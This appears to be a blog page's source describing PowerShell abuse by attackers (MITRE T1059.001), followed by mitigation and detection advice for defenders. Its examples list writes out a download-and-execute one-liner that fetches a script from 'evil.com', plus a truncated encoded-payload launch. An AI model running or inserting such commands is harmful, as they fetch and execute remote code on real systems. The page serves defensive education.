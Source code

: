 ```yaml
---
layout: blog
title: PowerShell
---
```



<div id="main" class="s-content__main large-8 column">
<article class="entry">

<header class="entry__header">

<h2 class="entry__title h1">
    PowerShell
</h2>        
</header>

<div class="entry__content">

<p>PowerShell is a powerful command-line shell and scripting language designed for system administration and automation tasks. While it offers legitimate functionality, threat actors often abuse PowerShell for malicious purposes, making it a commonly observed technique in cyber attacks. The MITRE ATT&CK Framework has categorized the use of PowerShell for code execution as <a href="https://attack.mitre.org/techniques/T1059/001/">T1059.001</a>.</p>

<p>How Attackers Use PowerShell</p>

<p>Attackers leverage PowerShell for various malicious activities, including:
<ol>
<li>Code Execution: PowerShell can be used to execute malicious code, scripts, and payloads directly on the compromised system. This allows attackers to perform various actions, such as downloading and running malware, conducting reconnaissance, or carrying out lateral movement within the network.</li>
<li>Bypassing Security Controls: PowerShell scripts can be obfuscated or encrypted to evade detection by security solutions. Attackers may also leverage PowerShell's built-in cmdlets and functionality to perform actions that bypass security controls or achieve their objectives without triggering alerts.</li>
<li>Living Off the Land Binaries (LOLBins): PowerShell is a legitimate system tool, making it a prime example of a Living Off the Land Binary (LOLBin). Attackers can use PowerShell to perform malicious activities while blending in with normal system operations, making detection more challenging.</li>
<li>Persistence and Lateral Movement: PowerShell can be used to create persistent mechanisms, such as scheduled tasks or services, ensuring that malicious code runs automatically upon system reboot or at predetermined intervals. Additionally, attackers can leverage PowerShell remoting to move laterally within the network and execute commands on remote systems.</li>
</ol></p>
<p>Examples of Malicious PowerShell Usage:
<ul>
<li>Downloading and executing malware: <code>IEX (New-Object Net.WebClient).DownloadString('https://evil.com/malware.ps1')</code></li>
<li>Conducting reconnaissance: <code>Get-Process | Select-Object -Property ProcessName, Id</code></li>
<li>Launching an encoded PowerShell payload: <code>powershell.exe -enc JABhAD...</code></li>
<ul></p>
<p>Mitigating PowerShell Attacks</p>

<p>To mitigate the risks associated with PowerShell abuse, consider implementing the following measures:
<ol>
<li>PowerShell Logging: Enable comprehensive PowerShell logging to capture and monitor PowerShell activity, including script block logging and transcription. This can help detect and investigate potential PowerShell-based attacks.</li>
<li>PowerShell Constrained Language Mode: Configure PowerShell to run in Constrained Language Mode, which restricts the usage of certain cmdlets and language elements, reducing the attack surface.</li>
<li>Application Whitelisting: Implement application whitelisting to allow only approved applications and scripts to run, effectively blocking unauthorized or malicious PowerShell scripts.</li>
<li>PowerShell Execution Policy: Set an appropriate PowerShell execution policy to restrict the execution of scripts from untrusted sources or locations.</li>
<li>User Training: Educate users about the risks of running untrusted PowerShell scripts and the importance of following security best practices when using PowerShell.</li>
<li>Endpoint Detection and Response (EDR): Deploy an EDR solution capable of monitoring and detecting suspicious PowerShell activity, such as the execution of obfuscated or encoded scripts, and blocking or terminating malicious processes.</li>
</ol></p>
<p>Detecting PowerShell</p>

<p>Detecting PowerShell abuse can be challenging due to its legitimate use within organizations. However, you can look for the following indicators:
<ol>
<li>Suspicious PowerShell Commands: Monitor for PowerShell commands that download and execute external scripts, encode or obfuscate code, or perform reconnaissance or lateral movement activities.</li>
<li>Encoded or Obfuscated Scripts: Analyze PowerShell scripts for signs of encoding, obfuscation, or other techniques used to evade detection.</li>
<li>Unusual PowerShell Process Behavior: Look for PowerShell processes spawning child processes, making network connections, or exhibiting other anomalous behavior.</li>
<li>PowerShell Logging: Review PowerShell logs for suspicious activity, such as the execution of untrusted scripts or the use of potentially malicious cmdlets.</li>
<li>Security Information and Event Management (SIEM): Configure your SIEM solution to alert on known PowerShell-based attack patterns or anomalous PowerShell activity.</li>
</ol></p>
<p>By understanding how attackers abuse PowerShell and implementing appropriate mitigation and detection measures, organizations can better protect themselves against PowerShell-based attacks and maintain a more secure environment.</p>

</div>
</article> <!-- end entry -->

</div> <!-- end main -->  